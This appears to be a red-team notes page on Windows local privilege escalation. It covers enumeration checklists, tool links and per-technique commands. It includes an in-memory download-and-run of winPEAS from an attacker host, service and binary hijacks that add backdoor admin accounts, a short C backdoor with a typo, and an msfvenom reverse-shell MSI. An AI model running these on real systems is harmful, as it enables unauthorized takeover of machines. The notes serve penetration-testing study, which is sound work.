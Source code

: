 ```yaml
---
title: Windows Privilege Escalation
---
```


Local [[notes/mitre-attack/privilege-escalation]] on [[notes/windows/index]].

Common checks ([source](http://web.archive.org/web/20230804173720/https://scribe.rip/@specterops/challenges-in-post-exploitation-workflows-2b3469810fe9)):

- processes including integrity levels and backing file
- service with unquoted service path
- service with writable backing file
- service with insecure security descriptor
- scheduled task with writable backing file
- named pipes including originating processes and SDDLs
- open TCP/UDP ports and their originating processes
- drivers currently installed, including backing files
- existing handles with overly permissive access rights
- recent temporary files and their SDDL
- various registry settings

Run a ton of checks.

=== "[[notes/tools/winpeas]]"
    ~~~ powershell
    $a=[System.Reflection.Assembly]::Load([byte[]](iwr -useb 'http://attacker.corp.local/winpeas.exe' | Select-Object -ExpandProperty Content))
    [winPEAS.Program]::Main('wait')
    ~~~

=== "[[notes/tools/privesccheck]]"
    ~~~ ps1
    import-module .\PrivescCheck.ps1
    Invoke-PrivescCheck
    ~~~

Test if credentials are valid.

~~~ powershell
$c = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList '.\nobody',(ConvertTo-SecureString -AsPlainText -Force 'passw0rd')
Start-Process -Credential $c -FilePath whoami.exe -ArgumentList '/all' -WindowStyle hidden -Wait -RedirectStandardOutput out.txt -RedirectStandardError err.txt
~~~

Other tools:

- [Seatbelt](https://github.com/GhostPack/Seatbelt)

Untested tools:

- [PipeViewer](https://github.com/cyberark/PipeViewer), shows detailed information about named pipes on Windows
- [Crassus](https://github.com/vullabs/Crassus)
- [SharpUp](https://github.com/ghostpack/sharpup), C# port of various [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) functions
- [beroot](https://github.com/AlessandroZ/BeRoot)
- [Windows Exploit Suggester Next Generation ](https://github.com/bitsadmin/wesng), checks Windows version for known vulnerabilities, processes output of `systeminfo` on Linux
- [ProtectionChecks.ps1](https://gist.github.com/jsecurity101/6b9e87f5a428f31d41ffc8c1ee05a999), checks whether a process is running as PPL

References:

- [book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- [exploit-notes.hdks.org/exploit/windows/privilege-escalation](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/)
- [Escalating Privileges via Third-Party Windows Installers](https://web.archive.org/web/20230720190244/https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)
- [The Print Spooler Bug that Wasn’t in the Print Spooler - Maddie Stone & James Forshaw - OffensiveCon23](https://www.youtube.com/watch?v=H03b0UaogVs), exploiting Windows side-by-side assemblies
- [Awesome Windows logical bugs](https://github.com/sailay1996/awesome_windows_logical_bugs)
- [Payloads all the Things - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

# Insecure File Permissions

Search with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) for writable files.

~~~ bat
accesschk.exe -accepteula -nobanner -u -w -s $env:USERNAME C:\
~~~

Especially check writable files and directories in the system path.
This can be exploited with e.g. [StorSvc](https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc).

~~~ bat
reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
~~~

Check the permissions the current user has on a file.

=== "builtin"
    ~~~ bat
    icacls.exe "C:\Program Files\Example\Service.exe"
    ~~~

    An output like `BUILTIN\Users:(I)(F)` is quiet bad, it means any user can overwrite it.

    Mask | Permissions
    -----|------------
    F    | Full access
    M    | Modify access
    RX   | Read and execute access
    R    | Read-only access
    W    | Write-only access

=== "PowerShell"
    ~~~ powershell
    Get-Acl "C:\Program Files\Example\Service.exe"
    ~~~

Take file ownership and grant yourself full access.

~~~ bat
takeown.exe /F .\example.exe
cacls.exe .\example.exe /E /G %USERNAME%:F
~~~

Untested tools:

- [UserWritableLocations.ps1](https://gist.github.com/hinchley/ade9528e5ce986e9a8131489ad852789)
- [find_writable.ps1](https://github.com/0xC0D1F1ED/find_writable_files/blob/master/find_writable.ps1)

# Services

Get the current service status including the PID.

~~~ bat
sc.exe queryex snmptrap
~~~

Get the current service configuration.

~~~ bat
sc.exe qc snmptrap
~~~

## Insecure Service Security Descriptor

Set the account to `NT Authority\System`.

~~~ bat
sc.exe config snmptrap obj= "NT AUTHORITY\System"
~~~

Then change the executable to a command that adds a local admin.

~~~ bat
sc.exe config snmptrap binPath= "cmd.exe /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

References:

- [Viewing Service ACLs](https://web.archive.org/web/20230131040322/https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

## Unquoted Service Path

The service must have a space in the absolute path to its executable and the path must not be enclosed in quotation marks.
Given the path `C:\Program Files\My Program\My Service\service.exe` check if you can write any of the following files:

~~~
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
~~~

If that's the case, place your malicious binary there and wait for the service to restart.

## Writable Service Binary

Replace the service binary with an executable that adds a new local admin.

`./evil.c`:

~~~ c
#include <stdlib.h>

int main() {
  system("net user backdoor passw0rd /add");
  system("net localgroup administrators backdoor /add");
  return 0:
}
~~~

If you have `SeShutdownPrivilege` reboot the system, otherwise wait for the service to restart.

~~~ bat
shutdown.exe /r /t 0
~~~

## Writable Service Registry Keys

User can modify registry keys of a service ([source](http://web.archive.org/web/20231004130556/https://0xdf.gitlab.io/2020/04/25/htb-control.html))

~~~ bat
accesschk.exe %USERNAME% -kwsu HKLM\System\CurrentControlSet\Services
~~~

# Always Install Elevated

If the `AlwaysInstallElevated` registry key is set to `1`, unprivileged users can run MSI installers with admin privileges.

~~~ bat
reg.exe query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg.exe query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~

Generate a reverse shell payload.

~~~ bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.196 LPORT=7101 -f msi -o ./pwn.msi
~~~

Execute the MSI.

~~~ bat
msiexec.exe /quiet /qn /i .\pwn.msi
~~~
